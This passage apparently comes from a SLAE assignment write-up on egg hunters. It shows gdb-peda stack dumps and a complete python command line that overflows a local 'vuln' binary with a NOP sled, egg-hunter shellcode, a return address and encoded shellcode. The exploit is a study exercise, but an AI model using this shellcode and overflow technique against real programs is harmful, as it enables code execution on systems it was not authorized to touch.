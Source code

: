 ```
0004| 0xffffcb74 --> 0x90909090 
0008| 0xffffcb78 --> 0x90909090 
0012| 0xffffcb7c --> 0x90909090 
0016| 0xffffcb80 --> 0x90909090 
0020| 0xffffcb84 --> 0x50905090 
0024| 0xffffcb88 --> 0x50905090 
0028| 0xffffcb8c --> 0xcddae389 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()

gdb-peda$ x/40wx $esp-300
0xffffca44:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffca54:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffca64:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffca74:	0x90909090	0x90909090	0x90909090	0xf7c931fc
0xffffca84:	0xca8166e1	0x6a420fff	0x5a8d5821	0x3c80cd04
0xffffca94:	0xb8ee74f2	0x50905090	0x75afd789	0xe675afe9
0xffffcaa4:	0x9090e7ff	0x90909090	0x90909090	0x90909090
0xffffcab4:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffcac4:	0x90909090	0x90909090	0x90909090	0x90909090
0xffffcad4:	0x90909090	0x90909090	0x90909090	0x90909090
```

Once we overwrite EIP, we will jump to 0xffffca44. It could be any other address among the NOPs. Notice that after running down the NOP sled, EIP will be pointing to our egg hunter, not to the shellcode!


```
valle@slae:/SLAE/assignment3$ ./vuln $(python -c 'print "\x90"*800 + "\xfc\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x6a\x21\x58\x8d\x5a\x04\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7" + "\x90"*198 + "\x44\xca\xff\xff" + "\x90"*20 +"\x90\x50\x90\x50\x90\x50\x90\x50\x89\xe3\xda\xcd\xd9\x73\xf4\x5a\x4a\x4a\x4a\x4a\x4a\x43\x43\x43\x43\x43\x43\x52\x59\x56\x54\x58\x33\x30\x56\x58\x34\x41\x50\x30\x41\x33\x48\x48\x30\x41\x30\x30\x41\x42\x41\x41\x42\x54\x41\x41\x51\x32\x41\x42\x32\x42\x42\x30\x42\x42\x58\x50\x38\x41\x43\x4a\x4a\x49\x32\x4a\x44\x4b\x51\x48\x4c\x59\x56\x32\x53\x56\x32\x48\x56\x4d\x53\x53\x4d\x59\x4a\x47\x42\x48\x56\x4f\x43\x43\x43\x58\x45\x50\x55\x38\x36\x4f\x42\x42\x52\x49\x32\x4e\x4d\x59\x4d\x33\x50\x52\x4b\x58\x34\x4a\x45\x50\x43\x30\x55\x50\x46\x4f\x35\x32\x42\x49\x32\x4e\x36\x4f\x32\x42\x43\x51\x44\x33\x45\x38\x55\x50\x30\x57\x46\x33\x4d\x59\x4d\x31\x58\x4d\x4b\x30\x41\x41"')
Enter some text:
You entered:
���������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������1���f���Bj!X�Z̀<�tP�P�ׯu��u��琐����������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������������D������������������������P�P�P�P�����s�ZJJJJJCCCCCCRYVTX30VX4AP0A3HH0A00ABAABTAAQ2AB2BB0BBXP8ACJJI2JDKQHLYV2SV2HVMSSMYJGBHVOCCCXEPU86OBBRI2NMYM3PRKX4JEPC0UPFO52BI2N6O2BCQD3E8UP0WF3MYM1XMK0AA
valle@slae:/SLAE/assignment3$ whoami
valle
```

Done!

